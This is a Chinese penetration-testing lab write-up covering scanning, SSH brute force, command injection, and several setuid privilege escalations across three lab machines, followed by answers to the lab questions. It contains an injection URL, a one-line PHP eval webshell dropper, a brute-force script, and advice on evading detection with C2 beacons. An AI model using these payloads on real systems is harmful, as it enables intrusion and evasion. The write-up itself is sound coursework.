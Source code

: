 # Week4 渗透测试

## 靶机1 初始访问
>事后看来这应该是最外层docker唯一暴露出的环境。

先说一下踩过的坑：  
VMware好像不兼容这个容器的网卡，试了很多模式都不能给机器分配IP。后来只能换成VirtualBox。

VBox启动之后看下网卡的网段（这一步应该是允许的，我们至少应该获取目标机的网段）  
然后直接用内网大杀器[fscan](https://github.com/shadow1ng/fscan)扫一发：  
`fscan -h [IP&mask]/24` 就抓到了活着的目标机器  
![图 1](images/2a0e04e029f8525e01df4d05a3c7af741fa79bcbc0028b4f991d735f45f85bdd.png)  
![图 2](images/8817f624d5f8b7c1c6c97fd7b83f723aa3ec3d5639d9c1a6504d5d77e9601949.png)  
按要求先去80看一下，找到了一堆限制条件和下一步的目标，邮箱，网页给出了账号密码。  

访问邮箱并查看邮件：
```python
from pwn import *

p=remote("192.168.56.101",110)
p.sendline(b"USER pentester")
p.sendline(b"PASS cs315")
p.sendline(b"LIST")
p.sendline(b"RETR 1")
p.interactive()
```

然后按要求去爆bob的ssh密码   
**注意，linux的登录用户名只能小写**  
字典生成： `cat rockyou.txt | grep bob > bob.txt`  
然后随便找个工具爆破，ssh爆字典属于是脚本小子中的脚本小子：   
https://github.com/EntySec/Shreder
```python
from shreder import Shreder
shreder = Shreder()
password = shreder.brute('192.168.2.109', 22, 'mobile', 'passwords.txt')
```
跑十几分钟就出了密码  
![图 3](images/72142edd27daf32787dc5219578479e0382c73414d0d029f8b6fa5d8a88c0d9c.png)  

ssh上去之后跑一下提权大合集 linpeas.sh，这个脚本整合了非常多常用的提权信息搜集，比如`sudo -l` `find / -perm 4000`等，并以非常nice的界面呈现结果。
![图 4](images/64f8112e42a7b7a960482d4710b2bed99e52eb299444e0ebbeb92de4ed3ece09.png)  

发现有一个脚本可以切到backuser用户，切过去之后再跑一遍 linpeas发现zip有suid权限  
用 https://blog.csdn.net/YouthBelief/article/details/122166791 提到的方法直接提到root。

![图 5](images/3bdcab33c604239d81289fd8ea2d9040d1896e9192f52a3b2f178a11da88cddd.png)  

然后在`/root`下得到第一个checkpoint
![图 6](images/0d1862db7adf929bf0cbfd898376a75533c3894a26ecd81d29ebd32de6a0eb8e.png)  

接下来让我们去搞webserver。

## 靶机2 内网横向-web渗透
还是fscan对靶机1的`[IP&mask]/24`扫一发，找到了开着80端口的内网靶机2。    
接下来的操作都在内网，为了方便操作这里先用frp把内网代理出来。  
因为我frp的配置用的是之前一些RealWord工作的配置，这里就不贴出来了。  

做好穿透之后，可以用Proxifier连接服务器的透明代理，配置转发规则之后就可以开始内网漫游了。  
挂好代理，御剑一发光速上班。  
![图 9](images/aca5a20dfa0eb02fb4574f0628f55d9edf8deccd1f4ca68a84b8402c6585d321.png)  

ping网页疑似直接shell执行ping命令，拼接可以执行  
`http://172.17.0[.]4/ping/ping.php?host=;ls`  
然后写shell，蚁剑上班  
`echo%20%27<?php%20eval($_GET[1]);%20?>%27%20>%201.php`

linpeas没扫到东西，翻home目录找到了olivr的密码
![图 10](images/e78daa9a303998e28dc478bb6fe7a7ffa406c19063dc78570f213fce171cb9b0.png)  

ssh上去继续 linpeas，发现python3能setuid，但是是属于oscar的，所以提不到root。  
用python3翻oscar的文件：
![图 11](images/0ff70178dce86f965a6275bbe0c7a6b11a5d2616f7fcc37285750bfe5c142198.png)  

找到了oscar的密码，换oscar上号， linpeas直接发现scripts下有个setuid的 `current-date` 程序，但好像吃不到命令输入，读出来放IDA里看下：
![图 12](images/6ab0ae66939da9d0adc4d83f16dc6197e4a2d013ac8ec56a3d1e60251997a833.png)  

没劫持成功LD_PRELOAD，但是发现system可以直接用环境变量劫持，把当前目录也放环境变量里就可以劫持 `date`
![图 13](images/1be0179d3e7a888d0df035139d5c5de4ba866fe75e001ab18bc7745696a024ba.png)  

提到了root，得到第二个checkpoint。

## 靶机3 内网横向-信息搜集

fscan再来一发，找到了允许匿名登录的ftp服务器。
![图 14](images/2971e98b14db0aa9036820cfa81ea82a663a7012e4fea7cdb21b204cdcf7910c.png)  

ftp版本刚好在某个RCE漏洞之后的一个版本，应该没CVE用了  
连上去翻到隐藏的压缩包，下载下来。
![图 15](images/244eb7a8d60224bedcd5f4fdf270bf6dfcd14038f3e6dcdfa6de6a115888e527.png)  

压缩包有密码，john立刻就能跑出来：
（这里的背景是msf摸靶机3的ftp，发现没洞可打）
![图 16](images/5e0462b2b4e992bd260b5995fbe06f31db2c22d7587b53ad7a74e24ea1f90aef.png)  

压缩包里边是用户名和密码，ssh上号，再跑linpeas，找到一个有神奇的SETUID权限的程序 screen-4.5.0
![图 17](images/e7efa394b78dd4de57ea0dd0a9d195bf4053a7ecd594eb79579b964f7e148f28.png)  

给出版本号，属于是钩直饵咸。搜一下就发现这个版本的screen有提权漏洞。

用 https://xz.aliyun.com/t/11664 的脚本一发就能拿到ROOT

![图 18](images/e9d7a0210580dce1427d4f8494273a3304bd154203f4e04b45a34d1cea0e1149.png)  

拿下checkpoint3，下班。

## 开始回答Lab的问题

### 1 Read the lab instructions above and finish all the tasks (checkpoints).

请见上面的正文

### If you are a user, what would you do to secure your password  from brute-force attacks? If you are a developer, what would you do to prevent brute-force attacks in your program?

简单回答一下作为常见的“用户”的解决方案：  

- 作为终端用户
   + 能用密钥的事情别用密码
   + 迫不得已用密码，用强密码+密码管理器
   + 容易被爆破的服务别挂常用端口，比如ssh开公网挂22不是小白就是蜜罐
   + 服务限制IP白名单，不考虑SSRF的情况下也就不会碰到爆破了
   + 本地可以配置策略，高频爆破封号+一键提交微步等开源情报平台
- 作为终端用户的管理员（在开发者角度仍然是用户）
   + 使用防火墙 EDR XDR 等流量审计设备，配置封禁策略
   + 协助终端用户配置 HIDS，以防万一，defence in depth

作为开发者，能做的主要也是考虑以上用户的解决方法并提供支持，比如：  
- 支持封禁策略和高频爆破告警
- 限制用户只能使用强度较高的密码
- 甚至可以直接替用户生成随机密钥/密码

### Why do we need to use pivoting / port forwarding in the penetration testing? List at least 3 examples of which kind of program shouldn't expose to the public network.

显然，访问目标NAT后的内网需要通过获得初始访问的机器完成，但使用代理|穿透|端口转发的原因我认为有以下几点：    
- 从方便的角度考虑，获取初始访问的机器上并没有渗透环境，代理到本地方便直接使用本地的工具渗透
- 从渗透本身的隐蔽性考虑，应该尽量减少在靶机上的交互，相较在受害者机器上直接搭建渗透环境，代理稍为隐蔽
- 更好的做法是使用高端的C2框架，直接下发命令sc，代理只用于跳板机和靶机通信

不应该暴露到公网的服务：
- 仅服务主机的服务，如仅用于本机服务时的mysql，redis等
- 开发、测试环境，即使需要对外服务，请配置代理
- 涉核心业务的机器，即使是配置了 强密码 + 态感 + 通防 也应该考虑纵深放到逻辑强隔离网段

### What's the difference between a shell and a reverse shell? Why do we use the reverse shell instead of the shell in this walkthrough?

正向shell和反向shell的区别十分明显，正常的shell这里就不解释了，反向shell可以简单理解为IO重定向到远程网络流的shell，我们可以在远程机器上和目标机的shell交互。  
因为有ssh和轻量的C2框架，我上文中的操作流程并没有涉及反弹shell。  
一般出于操作方便需要，可以通过RCE反弹shell方便操作。  
但如果熟练使用C2框架，反弹shell完全没必要，因为反弹shell的行为特征和流量特征过于明显，真实渗透中弹shell无异于自杀，赶紧去祈祷对面没钱买防护设备不会被XDR溯源回来吧。  
所以在真实渗透中，替代反弹shell的一种常见方式是让靶机下载执行C2的Beacon。  
Beacon可以更容易做到免杀免触发告警，也更持久稳定。  